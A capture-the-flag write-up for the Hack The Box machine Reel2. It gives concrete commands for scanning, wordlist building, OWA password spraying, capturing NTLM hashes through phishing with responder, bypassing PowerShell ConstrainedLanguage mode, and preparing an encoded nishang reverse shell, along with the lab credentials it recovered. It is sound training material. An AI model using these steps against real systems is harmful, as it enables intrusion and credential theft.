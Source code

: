 Hello friends!
Today I'm going to take you around a special machine on hackthebox platform: Reel2
<img src="/src/reel2.png">

It was a hard machine as the statistiques show!
First we start as usual with running <emb>nmap</emb> to see open ports and services.
<span style="color:blue"><emb>nmap -sV -T4 -oA nmap 10.10.10.210</emb></span>
The result shows a bunch of ports: 80, 443, 8080, 600x.


<img src="/src/nmap1.png">

We will start by ports 80 and 443, which only show a default windows IIS server default page. In this case we will launch a directory/files brute force to see if can find some juicy entries.

<span style="color:blue"><emb>dirsearch.py -e php,html -u http://10.10.10.210/ -t 50 -w wordlist.txt</emb></span>


<span style="color:blue"><emb>dirsearch.py -e php,html -u https://10.10.10.210/ -t 50 -w wordlist.txt</emb></span>


The results show the existing of exchange server and the web posrtal is accessible through https://10.10.10.210/owa (we can guess from the fisrt look that the exchange version is 2010)

Next step is to build username and password lists to brute force the OWA access. At this point we can use large wordlists but it may take an eternity to finish the attack.

The next open port is 8080 which exposes a social media website called "wallstant". We create a new account and start to look for some vulnerablities on that site. As by now, we will use this site to generate wordlists for username and password.


The following command will generate a worldlist using CEWL program (-m command is used for minimum word length, -d command used depth to spider):


<span style="color:blue"><emb>cewl -w passlist.txt -m 2 -d 4 -H Cookie:PHPSESSID=q7lmf0h6m81u4propu0r1s4reh --proxy_host 127.0.0.1 --proxy_port 8080 http://10.10.10.210:8080/</emb></span>


To generate a wordlist for usernames we make a curl to search endpoint which contains names of blog users.


<span style="color:blue"><emb>curl -v --cookie "PHPSESSID=q7lmf0h6m81u4propu0r1s4reh" http://10.10.10.210:8080/search > site.txt</emb></span>


The following will create a list from the output of curl command:


<span style="color:blue"><emb>html2dic site.txt >> list.txt</emb></span>

You can also use some burp extensions to generate those wordlists: <a href="https://github.com/PortSwigger/wordlist-extractor">exp1</a> or <a href="https://github.com/tinmyowin7/Wordlist-Generator">exp2</a>


After generating those wordlists we have many tools to perform a password spray attack: Take every username in the user's list and test it against every password in password's list.
Examples of tools: <a href="https://github.com/sensepost/ruler">Ruler</a>, <a href="https://github.com/byt3bl33d3r/SprayingToolkit">SprayToolkit</a>


<span style="color:blue"><emb>./atomizer.py owa http://reel2:443/owa passwords.txt users.txt --threads 20 --debug --interval 0:0:2</emb></span>


After some time we have a valid credentials: <span style="color:red">s.svensson:Summer2020</span>


We login with s.svensson account, and we can see that we have a list of users in the owa adress book, an evident tought that come to our mind is to send a phishing email to all users, with an email body set to out attacker machine. 


We set our responder as follow: <span style="color:blue"><emb>responder -I tun0 -v</emb></span>


A few seconds later we got NTLMv2 hash for a k.svensson, and we launch hashcat to crack that hash: <span style="color:red">k.svensson:kittycat1</span>


At this stage we will try to use this crendentials to execute powershell remoting, we had a problem of ConstrainedLanguage mode in that powershell session. To bypass this restriction we can create a function and call it, or we use the & sign to execute commands. So the following will execute `whoami` command: 


```
Invoke-Command -ComputerName 10.10.10.210 -Credential 'HTB.local\k.svensson' -Authentication Negotiate -ScriptBlock {&{whoami}}

PowerShell credential request
Enter your credentials.                                                                                                                                                          
Password for user HTB.local\k.svensson: *********

htb\k.svensson
```

Next we want to get a reverse shell on the box.
We will use nishang and base64 encode it:


<span style="color:blue"><emb>cat Invoke-PowershellTcpOnLine.ps1 | iconv -t utf16le | base64 -w 0</emb></span>


And then we send it to get the reverse shell with `-enc` to decrypt it:
<img src="/src/rev1.png">

We can get the user flag.

Next step is to have administrator access to the box or at least find out a way to read the root.txt flag!

In the desktop of k.svensson we see a Sticky Note link wich can be a good start to find some interesting stuff.

We can search for specific files or some content that have specific terms like "password", "psrc", "pssc" or "jea".

The following command helps us to look for files that end with `.log` extension: 

<span style="color:blue"><emb>get-childitem -path C:\ -File -Recurse -Include *.log -ErrorAction SilentlyContinue -Force</emb></span>

The search shows us a file that contains credentials for a new account: <span style="color:red">jea_test_account:Ab!Q@vcg^%@#1</span>
